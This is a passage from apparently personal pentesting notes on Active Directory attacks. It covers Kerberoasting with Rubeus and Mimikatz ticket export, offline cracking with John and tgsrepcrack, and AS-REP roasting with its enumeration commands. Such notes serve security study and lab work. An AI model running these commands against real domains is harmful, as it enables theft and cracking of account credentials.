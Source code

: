 Request-SPNTicket from PowerView can be used for cracking with John or Hashcat

**3. Save it to disk / Check if TGS in memory &**

{% code overflow="wrap" %}
```powershell
Kerberoast all possible accounts:
.\rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
 =>Maybe remove in file domain:numbers* the numbers part

klist
Invoke-Mimikatz -Command '"kerberos::list /export"'
```
{% endcode %}

**4. Crack it with John/Hashcat/tsrepcrack**

{% code overflow="wrap" %}
```powershell
john.exe --wordlist=C:\AD\Tools\kerberoast\10kworst-pass.txt C:\AD\Tools\hashes.txt

python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\filenameOfMimikatzExport
```
{% endcode %}



## 🎯🍳Targeted Kerberoasting - AS-REPs

### Description

* If UserAccountControl setting/flag does have "Do not require Kerberos preauthentication" enabled. It is therefore possible to grab users crackable AS-REP and bruteforce offline
* With sufficient rights like GenericWrite and Generic All, Kerberos preauth can be forced disabled as well
* It does not matter if the Service is still running or if the SPN makes sense at all
* The "pre-auth" part is Step 1 in the Diagram. Because the timestamp is encrypted with users NTLM hash, the KDC knows the request came from the user.
  * If "Do not require Kerberos preauthentication" is enabled, every user can send that request
  * In Step 2 we get the response - a part of it is encrypted using the users hash! What part? i ❓ thought it is just krbtgt?
* Abuse Step 1 and 2

### Requirement

### Tool

**1.Enumerate accounts with Kerberos Preauth disabled**

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">PowerView dev: Get-DomainUser -PreauthNotRequired -verbose
<strong>
</strong><strong>AD Module: Get-ADUser -filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth
</strong></code></pre>

